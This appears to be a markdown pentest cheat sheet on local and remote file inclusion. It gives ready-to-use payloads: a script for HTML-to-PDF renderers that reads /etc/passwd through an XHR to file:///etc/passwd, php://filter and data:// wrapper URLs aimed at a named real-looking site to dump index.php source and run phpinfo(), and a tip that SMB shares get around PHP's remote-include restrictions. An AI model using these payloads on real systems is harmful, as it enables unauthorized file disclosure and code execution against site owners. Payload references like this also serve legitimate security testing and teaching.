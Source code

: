 # LFI

## Read files via XSS in dynamically generated PDF

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){ document.write(this.responseText) };
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

# RFI

## Remote URL inclusion restriction bypass

Instruct PHP not to load remote HTTP and FTP URLs

```php
#php.ini
allow_url_include=false
allow_url_fopen=false
```

This can be bypassed using an SMB share

# Wrappers

## Filter

```
http://www.hermes.com/hermes/?lang=php://filter/convert.base64-encode/resource=index.php
```

## Data 

```
http://www.hermes.com/hermes/?lang=data://text/plain,<?php phpinfo(); ?>
```

# References
- [LFI via XSS in dynamically generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)